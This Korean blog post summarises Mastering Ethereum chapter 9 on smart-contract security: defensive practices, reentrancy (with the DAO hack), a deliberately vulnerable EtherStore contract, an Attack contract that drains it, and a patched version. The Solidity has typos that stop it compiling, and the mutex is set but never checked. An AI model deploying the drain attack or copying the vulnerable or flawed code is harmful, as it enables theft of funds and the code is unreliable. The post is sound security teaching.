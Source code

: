 ```yaml
---
layout:     post
title:      마스터링 이더리움 - 8
author:     bcnote3314
tags: 		blockchain Ethereum MasteringEthereum
subtitle:  블록체인 정복기	
category: Block
---
```


# 마스터링 이더리움 - 챕터 9-(1)

마스터링 이더리움 챕터 9 내용 요약 -1

스마트 컨트랙트 개발 과정에서 고려해야되는 보안 요소에 대한 설명이다.  
금융 거래등 신뢰성이 중요하기 때문에 개발자의 실수에 대한 대가가 크게 작용한다.  

스마트 컨트랙트를 작성하는 보안관련 사례, 패턴 등을 공부한다.

## 보안 모범 사례

### 방어적 프로그래밍(defensive programming) 
스마트 컨트랙트 작성시 가장 적합한 스타일로 다음의 몇가지 요소를 포함하는 개념이다.

1. 미니멀리즘/단순성 (minimalism/simplicity)
코드가 단순하고 적을수록 버그나 예기치 못한일의 발생 확률이 낮다.  
코드가 길다고 좋은 코드가 아니며 간단하고 심플한게 좋다. (simple is best!)

2. 코드 재사용(code reuse)
이미 존재하는 코드는 다시 만들 필요가 없다.  
필요한 것을 수행하는 라이브러리나 스마트 컨트랙트를 최대한 재사용하는 것이 좋으며 이미 알려진 코드, 광범위 하게 사용되는 코드일수록 이미 수많은 테스트를 거친것이며 새로 작성된 코드보다 안전하다.

3. 코드 품질(code quality)
스마트 컨트랙트 코드는 실수를 용납하지 않는다.  
금전적인 손실을 발생시킬수 있기 때문에 품질은 상당히 중요한 요소이며 엄격한 형태의 개발 방법론을 적용해야한다.  
블록체인의 특성상 배포된 코드를 패치하는 방법이 거의 없다.

4. 가독성/감사 용이성(readability/auditability)
코드는 명확하고 이해하기 쉬워야한다. 읽기 쉬운 코드가 감사하기도 쉽고 협업이나 타 개발자에 의한 리뷰시에 도움이 된다.  
협업/오픈소스 방법론을 사용하여 공개적으로 개발하는 것이 코드 품질에 도움이되며 명명규칙이나 문서화 등에도 신경을 쓰는것이 좋다.

5. 테스트 범위(test coverage)
가능한 모든것을 테스트 해야한다. 컨트랙트는 공개된 실행환경에서 실행되며 누구나 원하면 접근이 가능하기 때문에 함수의 입력값의 예외처리 등을 통하여 악의를 가지고 접근하는 경우를 대비해야한다.

## 보안 위험 및 안티 패턴
스마트 컨트랙트 프로그래머라면 컨트랙트를 위험에 노출시키는 패턴을 감지하고 피할수 있어야 한다.  

### 재진입성

이더리움의 특징중 하나는 다른 외부 컨트랙트 코드를 호출하고 활용할 수 있는 능력이다.  
컨트랙트는 일반적으로 이더를 처리하기 떄문에 종종 다양한 외부 사용자 주소로 이더를 전송한다.  
이때 외부에서 특정 함수를 호출하게 되는데 이런 외부의 호출은 공격자가 악용할 수 있다.  
컨트랙트에 콜백을 포함하여 대체코드를 실행하는 것을 강제할수 있다. (폴백 함수 사용)
이런 대표 사례로 DAO해킹 사례 가 있다.

관련 내용
> https://brunch.co.kr/@ashhan/26
> https://anomie7.tistory.com/56

### 취약점

이런 유형의 공격은 컨트랙트가 알 수 없는 주소로 이더를 전송할때 발생할 수 있다.  
공격자는 폴백 함수에 악성 코드를 갖고있는 컨트랙트를 외부 주소에 만들수 있고, 특정 컨트랙트에서 해당 주소로 이더를 보내면 악성 코드가 실행되는 구조이다.  

### 예제

- EtherStore.sol

```solidity

    contract EtherStore {
		uint public withdrawalLimit = 1 ether;
		mapping (address => uint) public lastWithrawTime;
    	mapping (address => uint) public balance;
    	
    	function depositFunds() public payable {
    		balance[msg.sender] += msg.value;
    	}
    	
    	function withdrawFunds (uint _weiToWithdraw) public {
    		require(balance[msg.sender] >= _weiToWithdraw);
    		require(_weiToWithdraw <= withdrawalLimit);
    		require(now >= lastWithrawTime + 1 weeks);
    		require(msg.sender.call.value(_weiToWithdraw());
    		balance[msg.sender] -= _weiToWithdraw;
    		lastWithrawTime[msg.sender] = now;
    	}
    }
```

- Attack.sol

```solidity

    import "EtherStore.sol";
    
    contract Attack {
		  EtherStore public etherStore;
      
      contructor(address _etherStoreAddress) {
			etherStore = EtherStore(_etherStoreAddress);
		}
		
		function attackEtherStore() public payable {
			require(msg.value >= 1 ether);
			etherStore.depositFunds.value(1 ether)();
			etherStore.withdrawFunds(1 ether);
		}
		
		function () payable {
			if (etherStore.balance > 1 ether) {
				etherStore.withdrawFunds(1 ether);
			}
		}
	}
```

예제 소스는 저장된 금액에서 1주일에 1Ether 씩만 뽑을수 있게 만들어진 스마트 컨트랙트를 재진입성 공격을 통하여 잔고를 털어내는 과정을 보여준다.  
간단한 예제로 외부에 contract에서 withdrawFunds 즉 출금을 시도하게 되면 EtherStore 에서 폴백함수를 수행하게 된다.

이때 폴백 함수에서 다시 withdrawFunds를 수행하게 되는데 balance나 lastWithrawTime 등의 상태값에 변경이 되기 전에 진입했기 때문에 잔액을 제외한 모든 상태 체크값이 True가 되어 1 ether(폴백 함수에 조건)를 제외한 모든 잔액을 출금하게 된다.

### 예방 기법

스마트 컨트랙트 개발 과정에서 잠재적인 재진입 취약점을 해결하기 위한 기술이 몇가지 있다.

1. 가능한 transfer함수를 이용해서 외부의 컨트랙트에 이더를 전송하는 방법
transfer 함수는 외부 호출에 대하여 가스를 2300개로 제한한다. 해당 가스의 양으로는 재진입을 하기에는 부족한 양이다.

2. 상태 변수에 대한 업데이트를 이더 전송 이전에 진행하는 방법 (애초에 잘못 짠 버그로 볼수있지...)
즉 이더를 전송하는 작업은 항상 코드 마지막에 하는것이 중요하며 이러한 패턴을 *체크 효과 상호작용 패턴* 이라고 한다.

3. mutex 사용
실행중에 컨트랙트에 lock을 걸어 재진입을 방지하는 것이다.

해당 기법들을 적용한 EtherStore.sol은 아래와 같은 형태를 보인다.

- EtherStore.sol

```solidity

    contract EtherStore {
		bool reEntrancyMutex = false;
		uint public withdrawalLimit = 1 ether;
    	mapping (address => uint) public lastWithrawTime;
    	mapping (address => uint) public balance;
    	
    	function depositFunds() public payable {
    		balance[msg.sender] += msg.value;
    	}
    	
    	function withdrawFunds (uint _weiToWithdraw) public {
    		require(balance[msg.sender] >= _weiToWithdraw);
    		require(_weiToWithdraw <= withdrawalLimit);
    		require(now >= lastWithrawTime + 1 weeks);
    		balance[msg.sender] -= _weiToWithdraw;
    		lastWithrawTime[msg.sender] = now;
			reEntrancyMutex = true;
			require(msg.sender.call.value(_weiToWithdraw());
    		reEntrancyMutex = false;
    	}
    }

```
